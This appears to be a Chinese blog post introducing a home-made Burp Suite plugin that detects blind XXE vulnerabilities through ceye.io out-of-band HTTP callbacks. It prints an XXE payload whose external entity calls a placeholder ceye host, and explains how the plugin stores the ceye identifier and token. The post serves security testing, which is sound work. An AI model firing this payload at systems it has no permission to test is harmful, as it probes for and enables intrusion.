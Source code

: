 # 0x00 前言
Burp没有自带检测XXE漏洞功能，也没有插件。于是自己开始动手撸一个XXE Scanner插件出来。

# 0x01 检测原理
OOB XXE盲攻击，利用ceye监控的http记录，我们再通过ceye给的api进行查询是否有利用XXE漏洞发送的http请求记录。使用如下payload。

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [
    <!ENTITY % remote SYSTEM "http://xxxx.ceye.io/xxe_test">
    %remote;]>
    <root/>

# 0x02 成品展示
首先需要一个ceye账号，将`Identifier(用于http请求到你的ceye账户下)`和`Token(用于API查询你的http请求记录)`分别填入到下图的文本框当中，点击保存。会在burp目录下生成xxe.config，以`Identifier|Token`格式保存着。下载启动burp的时候，XXE Scanner插件会自动读取xxe.config，获取到上次保存的参数。

![](http://ow0cao9xc.bkt.clouddn.com/Burp%20XXE%20Scanner%20%E6%8F%92%E4%BB%B6/1.png)

请求带`xxe_XXXXXXXXXX(10个随机字母或数字)`，用于后面判断是否利用XXE发送了http请求。

![](http://ow0cao9xc.bkt.clouddn.com/Burp%20XXE%20Scanner%20%E6%8F%92%E4%BB%B6/2.png)

通过api查询，检测到带有`xxe_XXXXXXXXXX(10个随机字母或数字)`的请求，则报XXE inject。

![](http://ow0cao9xc.bkt.clouddn.com/Burp%20XXE%20Scanner%20%E6%8F%92%E4%BB%B6/3.png)
